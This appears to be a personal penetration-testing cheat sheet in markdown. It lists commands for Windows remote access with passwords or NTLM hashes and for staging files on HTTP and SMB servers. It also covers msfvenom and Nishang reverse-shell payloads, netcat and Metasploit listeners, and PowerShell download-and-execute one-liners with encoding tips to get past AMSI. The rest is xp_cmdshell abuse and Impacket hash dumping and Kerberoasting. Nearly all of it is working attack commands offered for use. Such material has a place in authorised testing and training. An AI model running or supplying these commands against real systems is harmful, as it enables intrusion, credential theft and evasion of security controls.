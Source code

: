 # Remote Access
```
evil-winrm -i {IP} -u {username} -p {password/NTLM hash}

upload {local_filename} {destination_filename (optional)}
download {remote_filename} {destination_filename (optional)}
```
> evil win-rm
> only for windows pro or windows with RDP!!! >.<
> powershell commands can be executed

# Hosting Servers

## HTTP server
```
python3 -m http.server 80
```
> make sure to be in the directory of the server
> --directory can be used

## SMB server
```
sudo smbserver {share name} -username user -password password

net use \\{IP}\{share name} /user:user password

```
> -smb2support might be needed for some windows

## SMB 
```
smbclient -L //(IP)/{share name} 
get > download {filename}
get > uppload {filename}
smbclient -L //{IP}
```

# Reverse Shells

## Listening port
> port 1234, 4444
```
nc -lvnp 4444
rlwrap nc -lvnp 4444

use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
```
> rlwrap allows users to use previous commands 


## Msfvenom
>Take note anything with meterpreter is for msfconsole multihandler

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST={IP} LPORT=4444 -f exe > reverse.exe
msfvenom -p windows/meterpreter/reverse_tcp LHOST={IP} LPORT=4444 -f dll > reverse.dll
msfvenom -p windows/shell_reverse_tcp LHOST={IP} LPORT=4444 -f exe > reverse.exe
msfvenom -p windows/shell/reverse_tcp LHOST={IP} LPORT=4444 -f dll > reverse.dll
```
> windows .exe & .dll

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.0.1 LPORT=4444 -f elf >reverse.elf
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.0.1 LPORT=4444 -f elf >reverse.elf
```
> linux

## Nishang 
```
import-module Invoke-PowerShellTcp.ps1
Invoke-PowerShellTcp -Reverse -IPAddress {LHOST} -Port 4444
```

# Powershell 

## Downloading files
```
powershell.exe IEX (New-Object Net.WebClient).DownloadString("{IP/website url}")
```
> download and execute 
> you can encode using https://amsi.fail/ to bypass

```
IEX((New-Object Net.WebClient).DownloadString("{IP/website url}"))
```
> download
> you can encode using https://raikia.com/tool-powershell-encoder/ to bypass

```
powershell.exe -e 
```
> execute using powershell 
> e.g. powershell.exe -e (encoded stuff)


## check OS version
```
[Environment]::Is64BitProcess
(Get-WmiObject Win32_OperatingSystem).OSArchitecture
```
> checking OS architecture 


## MSSQL
```
enable_xp_cmdshell
EXEC xp+cmdshell '{command}'
```
> summons interactive shell / cmd for MSSQL


# Impacket

## Hash dump
```
secretsdump.py '{username}@{IP}'
```
> hash dump 

## Kerberoasting + hash via SPN
```
GetUserSPNs.py -request -{NETBIOSNAME}-ip {IP} {DOMAIN}/{NAME}:{PASSWORD}
```
> - hash dump via keberoasting using SPN
> - Need to hashcat to unveil the hash. Refer to bruteforce on usage
## MS sql logon 
```
mssqlclient.py {username}@{IP}
```
